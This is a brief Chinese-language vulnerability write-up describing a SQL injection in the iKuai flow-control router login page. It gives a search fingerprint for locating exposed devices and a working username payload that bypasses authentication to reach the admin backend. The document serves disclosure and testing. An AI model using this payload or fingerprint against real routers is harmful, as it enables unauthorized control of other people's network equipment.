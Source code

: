 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

<a-checkbox checked>iKuai 流控路由</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="登录爱快流控路由"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210531180103698.png)



使用万能密码登录后台



```plain
user: "or""=""or""="
pass: 空
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210531180212296.png)

